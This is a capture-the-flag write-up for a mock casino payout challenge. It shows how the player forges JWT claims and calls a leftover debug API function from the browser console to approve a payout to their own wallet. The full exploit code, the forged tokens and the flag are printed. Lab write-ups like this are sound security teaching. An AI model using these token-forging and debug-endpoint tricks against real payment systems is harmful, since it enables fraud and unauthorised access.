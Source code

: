 # T2O1: Financial Fiasco

## Problem Description
You've gained access to one of Lucky Lions game payout administration platforms with a session token lifted from a privledged user. It looks like this application was pretty hastily put together... I wonder what other things might be left behind?

### Resources

- Auth Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhcHAiOiJQYXlvdXQgQXBwIiwibmFtZSI6ImFkbWluIiwiZW50aXRsZW1lbnRzIjoiQURNSU4tVVNFUi1QUk9EIn0.MSKbQJWjxULLDjLiGXUtO5KQjtmHPXqESvzkXq1DvtU

- Bitcoin wallet address: 1Dc8bLshoiJcV4h5fAJz4JZGiWpmgQ7EMc

- http://target-jwt.chals.io/

## Objectives
Retreive the flag by successfully sending funds to your bitcoin wallet.

## Approach and Solution
When we follow the link given, we are met with this page:
![Home Page](img/o1-1.png)

A couple of things become apparent to us as we explore a little bit. First, the Admin button does nothing and also goes to nothing. Second, all of the games have the exact same interface displaying the exact same information.
![Game Page](img/o1-2.png)

Now, we go into the Developer tools, where we can inspect the elements. There, we see a file: `scripts.js`.

Awesome! We can assume that we can perhaps interact with the webpage this way. [Link to the script.](resources/o1-scripts.js)

We see immediately at the top that there is a section that reads:

```
textContent = {
    currentFunds: '1000000',
    winningUser: 'John Abernathy',
    pendingPayout: '334',
    payoutAccount: '12347878412323478979123431347893478'
};
```

So it is clear that we need to change the payoutAccount to our Bitcoin wallet address. How do we do that? Looking deeper into the JS, we see a function to update content:

```
function updateContent(content) {
    textContent.currentFunds = content.currentFunds;
    textContent.winningUser = content.winningUser;
    textContent.pendingPayout = content.pendingPayout;
    textContent.payoutAccount = content.payoutAccount; //this needs to be a hidden form field
    document.getElementById('currentFunds').textContent = "Current Funds: $" + textContent.currentFunds;
    document.getElementById('winningUser').textContent = "Winning User: " + textContent.winningUser;
    document.getElementById('pendingPayout').textContent = "Payout Amount: $" + textContent.pendingPayout;
    document.getElementById('payoutAccount').textContent = textContent.payoutAccount;
}
```

And, interestingly enough, there is a comment that says that the payout account should be hidden. Now we know the command to update our payout account: `textContent.payoutAccount = '1Dc8bLshoiJcV4h5fAJz4JZGiWpmgQ7EMc'`.

But that's not enough! This will not successfully send a payout to us. However, deeper in the JS file, we see this function:

```
/*
** remove before deployment**
function testFunction() {
    const xhr = new XMLHttpRequest();
    xhr.open('POST', base_url + '/api/v1/test', true);
    xhr.setRequestHeader('Content-Type', 'application/json');
    xhr.setRequestHeader('Authorization', 'bearer xxxx'); //replace with bearer with the fin entitlement
    xhr.onreadystatechange = function() {
        if (this.readyState === XMLHttpRequest.DONE && this.status === 200) {
            xhr.send(JSON.stringify({operation: 'decline'}));
            showPopupMessage(JSON.stringify(content), 10000); //puts the content of the response in the popup window, after converting to a string
        } else if (this.readyState === XMLHttpRequest.DONE) {
            showPopupMessage("Application Issue", 1000); // 20 seconds?? 
        }
    };
    xhr.send(JSON.stringify({operation: 'decline'}));
}
*/
```

Now this is interesting! Why would this function be commented out? Why does it need to be removed before deployment? Well, if we look closely at the code, it seems that it allows us to arbitrarily send requests to any operation of our choice--as long as we have the correct authorization.

We can see our current (or default) authorization in all the other functions of the JS file.

`bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhcHAiOiJQYXlvdXQgQXBwIiwibmFtZSI6ImFkbWluIiwiZW50aXRsZW1lbnRzIjoiQURNSU4tVVNFUi1QUk9EIn0.MSKbQJWjxULLDjLiGXUtO5KQjtmHPXqESvzkXq1DvtU`

Let's just test the function with this auth token first.

To run this code, all we have to do is just copy and paste it into the console and then call it.

![Running the function](img/o1-3.png)

Whoa! We get a 401 Unauthorized error. So we need to look futher at our auth token.

From just a glance, we can tell this is probably a JWT token (the base64, the eyJ opening sequence, and the various periods separating the content give it away). We use our trust JWT decoder to see what the JWT token consists of.

![JWT decoded](img/o1-4.png)

Header aside, the most important parts of this look to be the name and the entitlements. But what should those values be?

Let's look at the testFunction again. In the comment for the authorization header, the comment reads:

`//replace with bearer with the fin entitilement`

Great. So let's modify our JWT token to include the fin entitlement. All we do is add '-FIN' to the entitlements key under Payload. Now let's run our testFunction again.

![Modified run](img/o1-5.png)

Hmm. We still get a 401 Unauthorized. Going over to the Network tab and looking at the request, we see an error being thrown in the response:

`{error: "*Breakpoint 3* not the finanace user"}`

Okay. So it looks like we need to set the user to `finance` instead of `admin`. Let's reforge the JWT token again. This time, we get another, different error:
`{error: "*Breakpoint 4* Needs FIN-USER-PROD entitlement"}`

So let's set the entitlements to those. Running it this time with the JWT token `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhcHAiOiJQYXlvdXQgQXBwIiwibmFtZSI6ImZpbmFuY2UiLCJlbnRpdGxlbWVudHMiOiJGSU4tVVNFUi1QUk9EIn0.MSKbQJWjxULLDjLiGXUtO5KQjtmHPXqESvzkXq1DvtU` yields a 404 Not Found.

This is actually great news! It means that even though the "decline" endpoint doesn't exist, we have passed the correct auth token. So all we need to do is to edit the testFunction to approve the payout instead of declining it.

After a few more rounds of reading the errors and adjusting as needed, we finally hit upon the right function:

```
function testFunction() {
    const xhr = new XMLHttpRequest();
    xhr.open('POST', base_url + '/api/v1/test', true);
    xhr.setRequestHeader('Content-Type', 'application/json');
    xhr.setRequestHeader('Authorization', 'bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhcHAiOiJQYXlvdXQgQXBwIiwibmFtZSI6ImZpbmFuY2UiLCJlbnRpdGxlbWVudHMiOiJGSU4tVVNFUi1QUk9EIn0.MSKbQJWjxULLDjLiGXUtO5KQjtmHPXqESvzkXq1DvtU'); //replace with bearer with the fin entitlement
    xhr.onreadystatechange = function() {
        if (this.readyState === XMLHttpRequest.DONE && this.status === 200) {
            xhr.send(JSON.stringify({operation: 'approve'}));
            showPopupMessage(JSON.stringify(content), 10000); //puts the content of the response in the popup window, after converting to a string
        } else if (this.readyState === XMLHttpRequest.DONE) {
            showPopupMessage("Application Issue", 1000); // 20 seconds?? 
        }
    };
    xhr.send(JSON.stringify({operation: 'approve', payoutAccount: textContent.payoutAccount}));
}
```
and calling this function with testFunction() gives us the flag as the network response!

`{flag: "wicys{C13@n_Up_0n_aSiLe_5}"}`


## Rabbit Holes
No real rabbit holes for this one. Although there were a few steps to get to the flag, it was pretty straightforward once we found the testFunction.